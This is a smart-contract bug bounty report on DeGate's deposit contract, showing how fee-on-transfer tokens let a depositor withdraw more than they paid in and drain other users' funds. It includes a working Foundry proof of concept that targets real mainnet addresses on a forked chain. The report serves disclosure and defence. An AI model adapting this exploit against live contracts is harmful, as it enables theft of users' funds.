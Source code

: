 # Fee-on-transfer tokens can be used to steal other depositor's funds

Submitted 18 days ago by @xBentley (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #26468

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x54D7aE423Edb07282645e740C046B9373970a168#code

# Impacts
Direct theft of user funds from the Default Deposit Contract that is less than 1,000,000 USD.

# Details

Description

Bug Description

The protocol has implemented a function that is supposed to handle fee-on-transfer tokens called setCheckBalance on the DefaultDepositContract. However, this function can be easily bypassed since it requires contract admin to set correct params BEFORE a deposit transaction. This is not practical since it requires the admin to front-run every deposit, check that the token applies fees to transfers and then set the correct settings.

# Impact
When withdraing, users can steal other depositor tokens and drain the pool.

# Risk Breakdown
Difficulty to Exploit: Easy Weakness: CVSS2 Score:

# Recommendation
It is recommended that the contract instead should rely on ACTUAL balances before and after a deposit to determine if the token applies fees on transfers.

# References
## Proof of concept
I have provided this test as a POC:
```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

contract DeGateTestContract is Test {
    IExchangeV3 xv3 = IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    function setUp() public {
        vm.createSelectFork(vm.envString("RPC_URL"), 18558127);
    }

    function testZero() public {
        vm.startPrank(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A);
        //Balance at genesis
        assertEq(0,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).approve(0x54D7aE423Edb07282645e740C046B9373970a168, 12000);
        xv3.deposit(
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0xa7DE087329BFcda5639247F96140f9DAbe3DeED1,
            10000,
            ""
            );
        //Balance after deposit and fee of 100    
        assertEq(9900,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        skip(1396000);
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).transfer(0x54D7aE423Edb07282645e740C046B9373970a168, 500);
        //Balance after donation of 500
        assertEq(10395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        xv3.withdrawFromDepositRequest(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,0xa7DE087329BFcda5639247F96140f9DAbe3DeED1);
        //Balance at end
        assertEq(395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        
    }
}

interface IExchangeV3{
    function deposit(
        address from,
        address to,
        address tokenAddress,
        uint248  amount,
        bytes calldata extraData
        )
        external
        payable;
    function withdrawFromDepositRequest(
        address owner,
        address token
        )
        external
        ;    
}

/**
 * @dev Interface of the ERC20 standard as defined in the EIP.
 */
interface IERC20 {
    /**
     * @dev Emitted when `value` tokens are moved from one account (`from`) to
     * another (`to`).
     *
     * Note that `value` may be zero.
     */
    event Transfer(address indexed from, address indexed to, uint256 value);

    /**
     * @dev Emitted when the allowance of a `spender` for an `owner` is set by
     * a call to {approve}. `value` is the new allowance.
     */
    event Approval(address indexed owner, address indexed spender, uint256 value);

    /**
     * @dev Returns the amount of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens owned by `account`.
     */
    function balanceOf(address account) external view returns (uint256);

    /**
     * @dev Moves `amount` tokens from the caller's account to `to`.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transfer(address to, uint256 amount) external returns (bool);

    /**
     * @dev Returns the remaining number of tokens that `spender` will be
     * allowed to spend on behalf of `owner` through {transferFrom}. This is
     * zero by default.
     *
     * This value changes when {approve} or {transferFrom} are called.
     */
    function allowance(address owner, address spender) external view returns (uint256);

    /**
     * @dev Sets `amount` as the allowance of `spender` over the caller's tokens.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * IMPORTANT: Beware that changing an allowance with this method brings the risk
     * that someone may use both the old and the new allowance by unfortunate
     * transaction ordering. One possible solution to mitigate this race
     * condition is to first reduce the spender's allowance to 0 and set the
     * desired value afterwards:
     * https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
     *
     * Emits an {Approval} event.
     */
    function approve(address spender, uint256 amount) external returns (bool);

    /**
     * @dev Moves `amount` tokens from `from` to `to` using the
     * allowance mechanism. `amount` is then deducted from the caller's
     * allowance.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
}
//RPC_URL=$ALCHEMY_API forge test --match-contract DeGateTestContract
```
